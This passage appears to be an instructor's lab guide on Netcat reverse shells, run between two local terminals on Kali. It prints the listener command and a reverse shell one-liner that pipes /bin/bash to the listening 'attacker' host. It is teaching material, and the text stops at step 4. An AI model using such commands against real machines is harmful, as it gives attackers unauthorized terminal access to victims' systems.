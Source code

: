 Note that this demonstration will not show an exploit, but will show how certain exploits use shells to provide the attacker terminal access on a target.

1. In Kali, open a terminal and type `nc -h` to show the Help menu for Netcat.
    - Inform students that the old version of Netcat was accessed by typing `ncat`. We use `nc` to access the new version, which has additional functionality.

**Reverse Shells**

2. First, you'll demonstrate a reverse shell. Use Netcat to listen on port 4445 by typing `nc -lvp 4445`, as the following image shows:

   ![A screenshot depicts the command in the terminal.](images/netcat1.png)

   - This will act as the attacker's host, which is now listening for a connection from a remote machine.
   - Point out that the flags used are: `l` (listen), `v` (verbose), `p` (port).
 
3. Open another terminal window (not tab) and position it next to the current terminal window where `nc` is listening, as the following image shows: 

    ![A screenshot depicts the two terminals side by side.](images/netcat2.png)

    This new window will act as the victim/target machine.

4. In the new window, connect to port 4445 on the attacker's host window by typing `nc 127.0.0.1 4445 -e /bin/bash`, as the following image shows:

	 ![A screenshot depicts the command in the terminal window.](images/netcat3.png)
	